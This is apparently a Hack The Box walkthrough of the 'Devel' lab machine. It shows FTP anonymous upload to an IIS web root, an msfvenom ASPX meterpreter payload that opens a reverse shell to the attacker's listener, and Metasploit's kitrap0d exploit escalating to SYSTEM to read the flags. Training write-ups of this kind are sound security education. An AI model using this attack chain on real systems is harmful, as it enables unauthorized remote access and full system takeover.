

We're back with another episode in HTB Labs: Devel.

## Enumeration

We're provided the IP address `10.10.10.5`, so let's get started, with an `nmap` scan:

```
$ nmap -sV -sC 10.10.10.5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 13:23 CEST
Nmap scan report for 10.10.10.5
Host is up (0.022s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.07 seconds
```

We have just two ports open, FTP and HTTP. We can check out the HTTP port in the browser, but we have just a simple empty page with a single `welcome.png` image:



IIS is a web server by Microsoft. This page doesn't give us much to go off of, so let's move on to enumerating the FTP server.

The scan reveals we can log in as `anonymous` which requires no password, so let's do just that:

```
 ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```

We're in! Let's check out the available files:

```
ftp> dir
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

The web files like `welcome.png` seem to be located in the directory of the FTP server. This means that if we can upload a file to this directory, it may be available through the web server. I will now confirm this:

```
$ echo "hello world" > greeting.txt
```

```
ftp> put greeting.txt
local: greeting.txt remote: greeting.txt
229 Entering Extended Passive Mode (|||49166|)
125 Data connection already open; Transfer starting.
100% |****************************************************************************|    13      488.28 KiB/s    --:-- ETA
226 Transfer complete.
13 bytes sent in 00:00 (0.50 KiB/s)
```

```
$  curl 10.10.10.5/greeting.txt
hello world
```

Yeah, this directory access through the web server seems to be working. But how do we escalate this to gain access? We'll need to attain some kind of execution. Typically you can upload script files that when requested, are loaded and can execute commands to return the HTML. We might be able to exploit this to connect a reverse shell to our machine, but we'll need to figure out what kind of file is allowed execution on this specific web server.

We can check the HTML headers for the `X-Powered-By` header:

```
$ curl 10.10.10.5 -I
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 21 Jul 2025 11:33:42 GMT
```

According to Google, ASP.NET is quite interesting:

> ASP.NET is a server-side web-application framework designed for web development to produce dynamic web pages.

Exactly what we are looking for! I know not how this language works, but I do know the `msfvenom` package can generate reverse shell execution files for all kinds of web frameworks, including ASP.NET.

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f aspx > shell.aspx
```

Before we generate the file, I will start a Metasploit listener:

```
$ msfconsole

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.11
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.11:4444
```

Now we can replace the IP and port:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2890 bytes
```

Next we upload the ASP.NET dynamic web page file:

```
$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49169|)
125 Data connection already open; Transfer starting.
100% |****************************************************************************|  2930       21.66 MiB/s    --:-- ETA
226 Transfer complete.
2930 bytes sent in 00:00 (106.44 KiB/s)
```

Now all we have to do is request the file and execution will be triggered:

```
$ curl 10.10.10.5/shell.aspx
```

Then we check back over in Metasploit:

```
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.5:49170) at 2025-07-20 13:47:28 +0200

meterpreter >
```

We can figure out what user we have execution as:

```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```

We cannot read the flags:

```
meterpreter > cd Documents\ and\ Settings\\
meterpreter > dir
[-] stdapi_fs_ls: Operation failed: Access is denied.
```

## Escalation

Metasploit has a `local_exploit_suggester` module we can run on our user session to identify potential escalation paths:

```
meterpreter> Ctrl+Z
Background session 1? [y/N]

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 205 exploit checks are being tried...

[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 13  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 17  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
```

There's plenty of options here, but searching Metasploit for exploits got me to option 4:

```
msf6 post(multi/recon/local_exploit_suggester) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_015_kitrap0d
```

Let's fire it up on our existing session:

```
msf6 post(multi/recon/local_exploit_suggester) > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

Name Current Setting Required Description

---

SESSION 1 yes The session to run this module on

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description

---

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 10.10.14.11 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port

Exploit target:

Id Name

---

0 Windows 2K SP4 - Windows 7 (x86)

View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445
LPORT => 4445

msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.14.11:4445
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 624 launched.
[*] Reflectively injecting the DLL into 624...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.11:4445 -> 10.10.10.5:49188) at 2025-07-20 13:57:16 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

There we are, session 2 as `NT AUTHORITY\SYSTEM` or Administrator.

## Capturing the flags

```
meterpreter > shell
Process 4064 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\

11/06/2009  12:42 ��                24 autoexec.bat
11/06/2009  12:42 ��                10 config.sys
17/03/2017  07:33 ��    <DIR>          inetpub
14/07/2009  05:37 ��    <DIR>          PerfLogs
13/12/2020  01:59 ��    <DIR>          Program Files
18/03/2017  02:16 ��    <DIR>          Users
11/02/2022  05:03 ��    <DIR>          Windows
               2 File(s)             34 bytes
               5 Dir(s)   4.687.183.872 bytes free

c:\>type Users\babis\Desktop\user.txt
416607abc1d6f02d758c45a73ba8****

c:\>type Users\Administrator\Desktop\root.txt
3be8915ba17f78ab2cf1637e0025****
```
